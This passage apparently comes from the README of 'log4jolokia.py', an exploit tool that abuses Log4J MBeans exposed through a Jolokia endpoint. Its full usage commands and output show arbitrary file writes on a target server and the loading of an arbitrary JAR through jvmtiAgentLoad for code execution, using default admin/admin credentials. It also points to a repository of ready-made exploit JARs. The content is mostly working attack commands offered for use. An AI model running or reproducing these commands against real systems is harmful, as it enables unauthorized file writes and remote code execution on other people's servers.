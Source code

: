 Example - Write a file containing invalid XML characters to "/tmp/test2":
```
$ python3 log4jolokia.py write_file http://127.0.0.1:8161/console/jolokia/ -u admin -p admin -H 'Origin: http://localhost' -lf 00-ff.txt -w /tmp/test2
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=21263314
[+] Found Log4J Mbean org.apache.logging.log4j2:type=76ed5528
[.] Reading content from 00-ff.txt
[.] Generating Log4J configuration
[.] Invalid XML characters have been detected in the content
[.] Using a 2 step write techique (XML -> Properties -> File)
[+] Generated Log4J Properties configuration
[+] Embedded Properties configuration in a XML configuration
[.] Using a double setConfigText in order to flush the buffer
[.] Using setConfigText to load the Log4J XML configuration
[+] Successfully called setConfigText()
[+] File "/tmp/mal.properties" should have successfully been written on the target
[.] Using a double setConfigLocationUri in order to flush the buffer and finish writing "/tmp/mal.properties" 
[.] Setting ConfigLocationUri to point to arbitrary location file:/tmp/mal.properties
[+] Successfully set ConfigLocationUri to "file:/tmp/mal.properties" 
[.] Checking that the file "/tmp/test2" was written successfully on the target
[+] File "/tmp/test2" has been successfully written on the target
```

#### Execute JARs:

By using the functionality presented in the "write_file" module, we will write an arbitrary JAR on the target system and then use the "jvmtiAgentLoad([Ljava.lang.String;)" function in order to execute arbitrary Java code.

Help - Execute JAR Specific Parameters:
```
$ python3 log4jolokia.py exec_jar http://a -h

  ***TRUNCATED***

  -j [JAR], --jar [JAR]
                        Path to local jar to be executes on the target (Use only with mode: exec_jar)
  --tmp_dir [TMP_DIR]   Location of a writable directory. (Default value is "/tmp")
                        		E.g. Unix == /tmp
                             		Windows == C:/Users/Public

Example command:
	python3 log4jolokia.py exec_jar http://127.0.0.1:8161/console/jolokia/ -j mal_linux.jar -u admin -p admin -H 'Origin: http://localhost'

Valid jvmtiAgent JARs can be obtained from https://github.com/mbadanoiu/jvmtiAgentLoad-Exploit
```

Example - Write and execute JAR file:
```
$ python3 log4jolokia.py exec_jar http://127.0.0.1:8161/console/jolokia/ -u admin -p admin -H 'Origin: http://localhost' -j mal_linux.jar
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=21263314
[+] Found Log4J Mbean org.apache.logging.log4j2:type=76ed5528

[!!!] WARNING: You are about to write and execute the contents of "mal_linux.jar" on the target system. Make sure that:
	- The JAR contains a valid JVM TI agent
	- Once a JAR is successfully loaded:
		-- No new JAR can be loaded until the Java applicaiton is restarted (a.k.a. pick your commands wisely because you only have one shot)
```